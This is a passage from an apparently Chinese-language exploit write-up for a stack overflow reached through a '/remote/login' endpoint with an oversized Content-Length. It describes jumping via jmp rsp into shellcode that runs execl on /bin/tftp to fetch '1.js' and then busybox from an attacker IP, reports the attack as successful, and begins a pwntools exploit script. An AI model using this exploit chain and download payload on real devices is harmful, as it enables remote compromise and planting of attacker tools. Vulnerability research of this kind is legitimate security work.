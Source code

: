   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8df8Z3ceduSaHFcwEvncpy3tDtdDlKYHnGd1zUIwjRyIrs7wNDZJeZJJQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后我们只需要利用jmp rsp跳转就可以执行shellcode了 这里为了方便我们可以直接接着jmp rsp后面写shellcode   
  
### shellcode思路  
  
  
由于我们这里写入的字节有限大概0xc0长度的样子，如果要写比较麻烦的命令执行 可能不够，这里我的思路是去迁移rip到0x620+8的这个位置 也就是lea rax, [rip + 0x69]  然后就有了基本没有长度限制的shellcode的机会，还有种思路就是构造一个read 但是我这里syscall下去 gdb并没有卡住等待读取，目前不知道什么原因，所以就走思路一了  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfJcicw8oWW2fDYzibLra6ty81FCkUibM7YrjVeuSBLBRB78lM0FoYJ4CKQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfJNC994ZoFPo2aMVxJ2mg5jJlG1ibrichMo8UK3LBkQRH7icOB2u7tZhgw/640?wx_fmt=png&from=appmsg "")  
  
  
接下来就可以快乐的写shellcode了 我们需要干的就是：  
  
  
execl执行：/bin/tftp 192.168.111.160 1.js get octet ./1.js  
  
  
实际  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8df6yy2CNsibpITMZuZoFAoIHmibz8aAwNEYrlzl3U0czV3tpxNQr5lPMNQ/640?wx_fmt=png&from=appmsg "")  
  
  
execl("/bin/tftp", "/bin/tftp", "192.168.111.148", "1.js", "get", "octet", NULL);  
  
  
execl("/bin/tftp","/bin/tftp","192.168.111.148","1.js","get",octet","NULL")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfceIZq4yBZd8deAYGx7Cdg2uicatLQZ2UIXkZ1OqpxoAQTU332Wx934Q/640?wx_fmt=png&from=appmsg "")  
  
  
这里也就是一个个传参，唯一注意的就是 超过八字节的要分两次切割传  
  
  
最后参数情况  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfTKibM1aJS7icwpUicqJWNloR0QcslJ2tVIxRKtMYzyjOEnpsRjBm0zeibA/640?wx_fmt=png&from=appmsg "")  
  
  
检验：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfh8u6Wq7f6H9icOLR3Egaqp7EgTZp4ZQ8feKItuxsmqsxrZiawQbHzvjw/640?wx_fmt=png&from=appmsg "")  
  
  
成功实现攻击 这里监测一下busybox能否上传并正常使用  
  
  
直接get busybox不指定路径 成功  
  
```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
```